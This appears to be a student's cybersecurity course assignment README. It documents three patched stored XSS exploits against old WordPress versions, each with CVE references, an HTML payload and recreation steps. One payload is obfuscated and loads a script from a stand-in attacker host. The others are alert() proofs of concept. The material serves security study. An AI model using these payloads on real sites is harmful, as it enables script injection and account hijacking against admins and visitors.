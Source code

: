 # CyberSecurityWeek7
My assignment for week 7

Exploit 1:

[!] Title: WordPress <= 4.2 - Unauthenticated Stored Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/7945
    Reference: http://klikki.fi/adv/wordpress2.html
    Reference: http://packetstormsecurity.com/files/131644/
    Reference: https://www.exploit-db.com/exploits/36844/
[i] Fixed in: 4.2.1

Source Code:

```html
<a title='xxx onmouseover=eval(unescape(/var%20a%3Ddocument.createElement%28%27script%27%29%3Ba.setAttribute%28%27src%27%2C%27https%3A%2f%2fattacker.site%2fexploit.js%27%29%3Bdocument.head.appendChild%28a%29/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>

Guide for recreation:

I made a comment on a post not as an admin using XSS. 
The comment content had to be greater than 64kb in order to work. 
After the comment was submitted, I approved the comment as the admin, and went to view the post with the comments. 
On the load of the page the exploit was ran. This vulnerability was patched in WordPress 4.2.1.


Exploit 2:

[!] Title: WordPress <= 4.2.2 - Authenticated Stored Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/8111
    Reference: https://wordpress.org/news/2015/07/wordpress-4-2-3/
    Reference: https://twitter.com/klikkioy/status/624264122570526720
    Reference: https://klikki.fi/adv/wordpress3.html
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5622
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5623
[i] Fixed in: 4.2.3

Source Code:

```html
<a href="[caption code=">]</a><a title=" onmouseover=alert('test')  ">link</a>


Guide for recreation:

I made a post as a user with Author privileges using the source code as the content of the post. 
I then signed in as an admin and when viewing the post, the script ran on mouseover of the post. 
This vulnerability was patched in WordPress 4.2.3.


Exploit 3:

[!] Title: WordPress <= 4.3 - Authenticated Shortcode Tags Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/8186
    Reference: https://wordpress.org/news/2015/09/wordpress-4-3-1/
    Reference: http://blog.checkpoint.com/2015/09/15/finding-vulnerabilities-in-core-wordpress-a-bug-hunters-trilogy-part-iii-ultimatum/
    Reference: http://blog.knownsec.com/2015/09/wordpress-vulnerability-analysis-cve-2015-5714-cve-2015-5715/
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5714
[i] Fixed in: 4.2.5

Source Code: 
                          
```html
TEST!!![caption width="1" caption='<a href="' ">]</a><a href="http://onMouseOver='alert(1)'">Click me</a>

Guide for recreation:
I made a post as a user with Author privileges using the source code for the content of the post. 
I then signed in as an admin and then when going to click the link, the script runs on mouseover instead of onclick.
This vulnerability was patched in WordPress 4.2.5.
